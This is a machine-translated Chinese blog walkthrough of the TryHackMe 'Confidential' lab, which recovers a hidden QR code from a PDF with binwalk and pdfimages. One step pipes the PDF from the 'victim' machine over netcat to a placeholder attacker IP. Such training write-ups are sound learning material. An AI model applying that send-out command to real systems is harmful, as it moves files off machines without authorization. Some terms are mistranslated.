







# 机密— TryHackMe 演练

> 原文：<https://infosecwriteups.com/tryhackme-confidential-walk-through-8b8294579134?source=collection_archive---------1----------------------->

我的名字是克里希纳德夫·P·梅勒维拉，我是一名昆虫赏金猎人。要了解我更多，在谷歌上搜索我的名字。

我通常在我的中型博客上发布我的 bug bounty 文章，但这是我第一次发布 TryHackMe room 文章。

所以让我们开始吧，

房间名称:机密([https://tryhackme.com/room/confidential](https://tryhackme.com/room/confidential)

发布日期:2022 年 8 月 19 日

我们会获取部分二维码进行调查。(点击显示分割视图)



如果我们打开 PDF，可以看到它被部分覆盖，因此我们无法扫描它。

让我们在 PDF 上做一个 [*binwalk*](https://www.kali.org/tools/binwalk/#:~:text=Binwalk%20is%20a%20tool%20for,embedded%20inside%20of%20firmware%20images.) 。



但是我认为在 THM 机器上运行 binwalk 和我们需要的其他工具是困难的。所以我们可以把 PDF 下载到我们的机器上。

为此，我们可以利用 netcat 会话。

> **要在我们的机器上执行的命令:**

```
 nc -lnvp 1234 > sus.pdf
```

> **要在受害机器上执行的命令:**

```
nc <attackers IP> 1234 < Repdf.pdf
```

现在 nc 将把 Repdf.pdf 下载到我们的机器上。

现在我们可以在这里使用人行道:

```
binwalk sus.pdf
```



它很乱，所以我们可以检查另一个叫做 pdfimages 的工具

```
pdfimages -all sus.pdf ext
```



现在我们将得到三个图像，让我们打开它。



所以我们得到了真正的二维码。因此，如果我们使用手机或任何库(如 opencv)扫描它，我们可以读取标志。

感谢您阅读本文。希望你喜欢。

***别忘了在 medium 等社交媒体上关注我。也请为这篇文章鼓掌 50 次，这是我写更多的灵感！！***

我需要你的支持来写更多，请给我买杯咖啡吧:[https://www.buymeacoffee.com/krishnadevpm](https://www.buymeacoffee.com/krishnadevpm)

*我的 Instagram 手柄:*[*https://instagram.com/krishnadev_p_melevila*](https://instagram.com/krishnadev_p_melevila)

*我的推特手柄:*[*https://twitter.com/Krishnadev_P_M*](https://twitter.com/Krishnadev_P_M)

*我的 LinkedIn 手柄:*[*https://www.linkedin.com/in/krishnadevpmelevila/*](https://www.linkedin.com/in/krishnadevpmelevila/)

*我的人事网站:*[*http://krishnadevpmelevila.com/*](http://krishnadevpmelevila.com/)

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*